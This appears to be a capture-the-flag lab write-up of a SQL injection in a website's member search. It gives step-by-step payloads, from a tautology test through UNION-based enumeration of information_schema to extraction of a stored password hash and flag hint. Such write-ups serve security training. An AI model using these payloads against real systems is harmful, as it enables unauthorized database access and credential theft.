 # 💉🗄️ SQL Injection Attack (Database Exploitation)

> **OWASP Category:** A03:2021 – Injection  
> **Severity:** 🔴 Critical  
> **Difficulty:** 🟡 Medium

The website's member search functionality contains a SQL injection vulnerability that allows attackers to manipulate database queries. By injecting malicious SQL code into the search field, attackers can bypass authentication, extract sensitive data, and potentially gain complete control over the database.

🎯 **The Crown Jewel:** SQL injection remains one of the most devastating web vulnerabilities - direct access to your data!

---

## 🎯 Exploit Technique

### 🔧 Attack Evolution

#### 🥇 **Step 1 - Basic Injection Discovery**
```sql
-- Test basic injection
Input: 1 OR 1=1

-- Result: Returns all users (4 different users)
-- Confirms SQL injection vulnerability exists
```

#### 🥈 **Step 2 - Database Schema Enumeration**
```sql
-- Discover all tables in the database
Input: 5 UNION SELECT table_name, table_schema FROM information_schema.tables

-- Result: Lists all database tables and schemas
-- Identifies target tables for further exploitation
```

#### 🥉 **Step 3 - Column Structure Analysis**
```sql
-- Enumerate all columns in all tables
Input: 5 UNION SELECT column_name, table_name FROM information_schema.columns

-- Result: Reveals 8 different fields in the 'users' table
-- Maps out complete database structure
```

#### 🏆 **Step 4 - Data Extraction & Flag Recovery**
```sql
-- Extract sensitive data from specific columns
Input: 5 UNION SELECT countersign, Commentaire FROM users

-- Result:
-- First name: 5ff9d0165b4f92b14994e5c685cdce28
-- Surname: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```
